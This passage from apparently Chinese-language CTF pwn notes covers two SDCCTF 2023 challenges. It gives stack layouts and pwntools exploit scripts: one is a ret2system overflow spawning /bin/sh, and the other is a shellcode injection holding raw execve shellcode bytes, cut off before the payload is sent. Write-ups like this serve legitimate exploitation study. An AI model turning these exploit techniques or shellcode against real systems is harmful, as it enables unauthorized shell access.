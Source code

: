    ```c
    ```
    -00000026 s               dw ?
    -00000024                 db ? ; undefined
    ...
    -00000001                 db ? ; undefined
    +00000000  s              db 4 dup(?)
    +00000004  r              db 4 dup(?)
    +00000008
    +00000008 ; end of stack variables
    ```
2. exp.py
    ```python
    from pwn import *
    io = process('./pwn')
    io.recvuntil(b"please tell me your name")
    io.sendline(b"/bin/sh")          # 输入/bin/sh到name
    binsh_addr = 0x0804A080          # 没开地址随机化，找到name变量地址
    system_addr = 0x08048420         # plt表中pwn的调用地址
    payload = b"a" * (0x26+0x4) + p32(system_addr) + p32(0) + p32(binsh_addr)
                                     # 参考上面的system注入公式
    io.recvuntil(b"hello,you can leave some message here:")
    io.sendline(payload)
    io.interactive()
    ```   
#### shellcode
1.  分析过程
    查看main函数：
    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        __int64 buf[2]; // [rsp+0h] [rbp-10h] BYREF
        buf[0] = 0LL;
        buf[1] = 0LL;
        setvbuf(_bss_start, 0LL, 1, 0LL);
        printf("Write to here [%p]\n", buf);    // 直接给了buf的地址
        puts("Input anything : ");
        read(0, buf, 0x400uLL);                 // 注入点
        return 0;
    }   
    ```
    查看没有system函数，也没有后面字符串，但是NX没开，可以输入shellcode  
    查看buf的栈结构，发现buf和r之间只有0x10+0x8位，可以溢出覆盖返回地址，但是不足以塞下shellcode，于是考虑将shellcode塞在r后面，将返回地址塞在返回地址后面，返回地址的值用buf地址+增量0x10+0x8+0x8计算得出。
    ```
    -0000000000000010 buf             dq ?
    -0000000000000008 var_8           dq ?
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?)
    +0000000000000010 ; 将shellcod塞在这里（但是为什么能塞得下我还不清楚）
    +0000000000000010 ; end of stack variables
    ```
2. exp.py
    ```python
    from pwn import *
    io = process('./pwn')
    io.recvuntil(b"Welcome to SDCCTF 2023 Final!\n")
    buf_addr = io.recvline(keepends=False)      
    buf_addr = buf_addr[len("Write to here ["):-1].decode("ascii")  # 把接收到的byte格式地址转换成string
    buf_addr = int(buf_addr, 16)                                    # 转换16进制string为数字
    ret_addr = buf_addr + (0x10+0x8+0x8)                            # 返回地址 = buf地址+增量，包含r长度
    shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
   ```